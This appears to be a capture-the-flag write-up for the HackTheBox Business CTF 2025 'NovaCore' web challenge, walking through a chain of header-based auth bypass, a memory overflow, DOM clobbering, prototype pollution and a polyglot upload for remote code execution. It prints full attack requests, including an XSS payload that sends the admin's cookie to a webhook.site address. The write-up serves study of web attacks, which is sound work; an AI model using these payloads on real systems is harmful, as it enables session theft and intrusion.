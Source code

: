 ```yaml
---
layout: post
title: NovaCore
category: HackTheBox Business CTF 2025
---
```


## Introduction: The Attack Path

This challenge was a masterclass in chaining multiple, distinct vulnerability classes to achieve a final goal. The exploit path was non-linear and required careful setup of multiple components before a final trigger could be pulled. The core of the challenge was bypassing a strict Content-Security-Policy (CSP) with a `nonce` to achieve XSS on the admin account. This was made possible by manipulating the logic of a front-end JavaScript file (`dashboard.js`) through a combination of DOM Clobbering and Prototype Pollution, which was itself set up using a memory corruption vulnerability.

The full chain can be summarized as follows:
1.  **Auth Bypass:** Become `sys_admin` using a hop-by-hop header bypass.
2.  **Memory Corruption:** As `sys_admin`, create two trades. Use a memory overflow to creaate trade as `admin` user.
3.  **Payload Planting (Part 1):** Edit the now admin-owned trade to inject a DOM Clobbering payload. This payload won't execute directly but will manipulate the DOM for a later script.
4.  **Payload Planting (Part 2):** Use an unauthenticated `/front_end_error/new/{name}` endpoint to store a JSON object containing a Prototype Pollution payload.
5.  **Triggering the Chain:** When the admin bot visit the compromised trade, the DOM Clobbering payload trigger the catch error in `dashboard.js`.
6.  **CSP/Nonce Bypass:** The script's error handling logic is manipulated:
    * DOM Clobbering makes the script check `window.UI_DEV_MODE` pass.
    * A path traversal, also injected via DOM Clobbering, forces the script to `fetch` our pre-planted Prototype Pollution payload from `/front_end_error/view/{name}` instead of reporting a new error.
    * The fetched JSON is parsed and merged, triggering the Prototype Pollution.
    * The polluted prototype value is passed into an `eval()`, executing our XSS payload and exfiltrating the admin's session cookie.
7.  **Remote Code Execution:** Use the stolen admin cookie to authenticate to a plugin upload endpoint and upload a specially crafted TAR/ELF polyglot file to bypass file validation and gain RCE.

---

## Step-by-Step Exploit Breakdown

### Step 1: Authentication Bypass via Hop-by-Hop Headers

Initial access was gained by exploiting how the application's reverse proxy handled hop-by-hop headers. By including `X-Real-IP` in the `Connection` header, the proxy would strip this header before forwarding the request to the backend. However, it would still process the `X-Real-IP` header itself. By setting `X-Real-IP: 127.0.0.1`, the backend application trusted the header and granted us `sys_admin` privileges.

The key headers were:
```http
X-Real-IP: 127.0.0.1
Connection: close, X-Real-IP
```

### Step 2: Gaining Control via Memory Corruption

With `sys_admin` access, we could create trades. The vulnerability lay in the `edit_trade` function, which was susceptible to a overflow in the `symbol` parameter. This allowed us to overwrite the data of an adjacent trade object in memory.

The request to perform the overflow looked like this:

```http
POST /api/edit_trade HTTP/1.1
Host: 83.136.252.78:51714
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
X-Real-IP: 127.0.0.1
Connection: close, X-Real-IP
Content-Length: 387
Content-Type: application/json

{
    "trade_id": "0b8618b8-d93d-44d0-ac5f-aaf69b7e3e31", 
    "symbol": "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAuser:1:trade:cb474955-6761-494e-a050-aa7993403fd6"
 
}
```

### Step 3: Planting the Payloads

Now that we controlled an admin's trade, we needed to plant two different payloads.

#### A. The DOM Clobbering Payload

We edited the trade to include an HTML payload in its `symbol`.

```http
POST /api/edit_trade HTTP/1.1
Host: 83.136.252.78:51714
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
X-Real-IP: 127.0.0.1
Connection: close, X-Real-IP
Content-Length: 266
Content-Type: application/json

{
    "trade_id": "cb474955-6761-494e-a050-aa7993403fd6", 
    "symbol": "<form/name=\"getElementById\"/value=\"test\"></form><a/id=\"UI_DEV_MODE\"></a><anything/id=\"LOG_LEVEL\"/int=\"../view/random\"></anything>",
    "action": "BUY",
    "price": "1.0"
}
```

#### B. The Prototype Pollution Payload

Next, we used the `/front_end_error` endpoint to store our final XSS payload within a JSON structure.

```http
POST /front_end_error/new/random HTTP/1.1
Host: 83.136.252.78:51714
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
X-Real-IP: 127.0.0.1
Connection: close, X-Real-IP
Content-Length: 117
Content-Type: application/json

{"__proto__":{"length":"(location='https://webhook.site/xxxxxxx/?c='+document.cookie)"}}
```

### Step 4: Triggering the Exploit Chain

With all the pieces in place, the exploit triggers automatically when the admin user visits their dashboard and views the compromised trade. This causes the chain of events described previously: the DOM is clobbered, a controlled error occurs, the error handler fetches our Prototype Pollution payload via a path traversal, the `Object.prototype` is polluted, and finally, `eval()` executes our code, stealing the admin's cookie.

### Step 5: Post-Exploitation to RCE

With the admin's session cookie, we authenticated to the application as the admin. We discovered a plugin upload feature at a `/run_plugin` endpoint. To bypass the backend `tar` and `readelf` checks, we crafted a polyglot file that was simultaneously a valid TAR archive and a valid ELF executable. Uploading and executing this polyglot file bypassed the validation and gave us Remote Code Execution on the server.

---

## Conclusion

The `web_novacore` challenge was a formidable and deeply rewarding experience. It brilliantly wove together an array of advanced web vulnerabilities, demanding a thorough understanding of not just each individual flaw, but precisely how they could be chained together. The reliance on DOM Clobbering to pivot to Prototype Pollution as a CSP bypass was particularly ingenious. This was a true "final boss" web challenge.

---
For the full official write-up, see: [Official Write up HTB](https://github.com/hackthebox/business-ctf-2025/tree/master/web/novacore).
